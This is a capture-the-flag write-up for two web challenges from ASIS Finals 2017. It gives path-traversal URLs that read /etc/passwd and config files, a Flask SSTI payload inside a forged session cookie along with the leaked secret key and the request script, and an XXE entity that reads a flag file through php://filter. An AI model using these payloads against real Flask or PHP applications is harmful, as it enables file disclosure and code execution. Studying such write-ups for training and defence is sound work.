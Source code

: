 # ASIS-FINALS-2017
Task name : Golem is stupid <br>
Category : Web <br>

Description :  Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid! <br>
<br>

tldr ; SSTI to get RCE in flask session token <br>

Challenge : <br>
first could find obvious LFI  https://golem.asisctf.com/article?name=../../../etc/passwd  and leak etc/passwd <br>
Trying leak other files gave us important infos : https://golem.asisctf.com/article?name=../../../../proc/self/cmdline <br>

https://golem.asisctf.com/article?name=../../../../../../etc/uwsgi/apps-enabled/golem_proj.ini was showing main script path file <br>

leaking that we can see that all parameters are kind of sanitized except token, which was then printed , looks like server side template injection<br>
All I had to do is create local flask app, forge my token using the key which was in the python file with payload, and send it to the application<br><br>

Payload : <br>
```
#creatig payload
from flask import Flask, session

app = Flask(__name__)

@app.route('/')
def run():
    session['golem'] = '{{ \'\'.__class__.__mro__[2].__subclasses__()[40](\'/opt/serverPython/golem/flag.py\').read() }}'
    return 'ok'
    

if __name__ == '__main__':
    app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
    app.run(host='127.0.0.1', port=2222, debug=True)
--------------------------------------------------------------------------------------------------------------------

#exploiting 
import requests

cookies={'session':'.eJwlyU0LgjAYAOC_Eu-5w9SCNugUOJl6iGgub21-QG4Z6Aab-N8zuj7PAv2oWwNkgZ0EAm0y9cwrKyL8kjQNKsJdoXEnBXObyVKj34WmYv-PeRDRacz5hMoUjcxjp7Kr29w3hvt7ptGTYlvEjZOUz0VcT49KWZUN7_x29HWVDvll6DuBzrDuYTYfIIdk_QL3ADJC.DJSUXQ.0_cgqMpbS89-sLEX2HaJRslq73I'}


r=requests.post('https://golem.asisctf.com/golem',cookies=cookies)

print r.text
```

<br>
Response contained flag : ASIS{I_L0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}


<br><br>
<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
<br><br><br>

Task name :  GSA File Server  <br>
Category : Web <br>

Description :  GSA's file server, go find the hole, drill it and grab the flag :)
Note that Scope is 128.199.40.185:* <br>
<br>

tldr ; Exploit XXE and Use a directory listing vuln to read flag<br>

Challenge : <br>
First find :http://128.199.40.185/showFiles was vuln to directory listing<br>
Second find : http://128.199.40.185:8081/panelManager-0.1/ XXE injection in docx file <br>
the solution was to download their doc file called (demo) open with archive and change inner xml (word/document.xml) with an xxe  php filter was working <br>
```<!DOCTYPE roottag [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../../fileSharing/s3cRetP4th/flagIsHeregRabiT.flag"> ]>```<br>
<br> the directory of the flag was found using the first vuln <br>
Flag : ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}
